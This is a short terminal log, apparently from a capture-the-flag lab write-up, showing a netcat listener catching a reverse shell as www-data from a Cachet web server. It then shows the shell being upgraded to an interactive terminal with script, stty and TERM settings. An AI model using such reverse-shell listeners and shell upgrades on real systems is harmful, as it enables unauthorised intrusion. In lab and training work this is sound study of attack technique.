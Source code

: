 ```bash
➜  nc -lnvp 8888
listening on [any] 8888 ...
connect to [10.10.14.56] from (UNKNOWN) [10.10.11.150] 40592
bash: cannot set terminal process group (26): Inappropriate ioctl for device
bash: no job control in this shell
www-data@364dbcc541cf:/var/www/html/Cachet/public$ which python3
which python3
www-data@364dbcc541cf:/var/www/html/Cachet/public$ which python
which python
www-data@364dbcc541cf:/var/www/html/Cachet/public$ which script
which script
/usr/bin/script
www-data@364dbcc541cf:/var/www/html/Cachet/public$ /usr/bin/script -qc /bin/bash /dev/null
<het/public$ /usr/bin/script -qc /bin/bash /dev/null
www-data@364dbcc541cf:/var/www/html/Cachet/public$ ^Z
[1]  + 367964 suspended  nc -lnvp 8888
➜  stty -a | head -n1 | cut -d ';' -f 2-3 | cut -b2- | sed 's/; /\n/'
rows 29
columns 166
➜  stty raw -echo;fg
[1]  + 367964 continued  nc -lnvp 8888

www-data@364dbcc541cf:/var/www/html/Cachet/public$ stty rows 29 cols 166
www-data@364dbcc541cf:/var/www/html/Cachet/public$ export TERM=xterm
www-data@364dbcc541cf:/var/www/html/Cachet/public$
```
